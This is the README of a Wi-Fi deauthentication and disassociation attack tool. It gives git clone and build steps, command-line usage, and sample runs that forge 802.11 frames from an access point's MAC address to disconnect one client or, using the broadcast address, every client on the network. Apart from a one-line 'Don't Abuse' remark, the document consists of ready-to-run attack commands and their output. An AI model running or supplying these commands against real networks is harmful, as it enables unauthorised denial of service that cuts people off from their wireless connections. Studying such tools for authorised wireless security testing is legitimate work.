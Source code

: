 # Deauth/Disas Attack

2019/11/12(verifsec@gmail.com)

## Installation

```
# git clone https://github.com/verifsec/deauth-attack.git
# cd ./deauth-attack
# make
```

## Usage

```
# deauth-attack -h
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

usage: deauth-attack [-h] -i IFACE -b BSSID [-t TARGET] -m MODE

optional arguments:
  -h, --help            show this help message and exit
  -i IFACE, --iface IFACE
                        802.11 iface(monitor)
  -b BSSID, --bssid BSSID
                        APUT MAC Address
  -t TARGET, --target TARGET
                        STAUT MAC Address
  -m MODE, --mode MODE  "disas" or "deauth"
```

## Example

### Safety

```
# deauth-attack -i wlan0mon -b 00:23:69:XX:XX:XX -m disas -t 34:97:f6:YY:YY:YY
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:XX:XX:XX to 34:97:f6:YY:YY:YY
[+] Finish. Hopefully it's nothing.
```

### Unsafety

```
# deauth-attack -i wlan0mon -b 00:23:69:XX:XX:XX -m disas
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:XX:XX:XX to ff:ff:ff:ff:ff:ff
[+] Finish. Hopefully it's nothing.
```

## License
This software includes the work that is distributed in the Apache License 2.0.

## Remark
Don't Abuse.
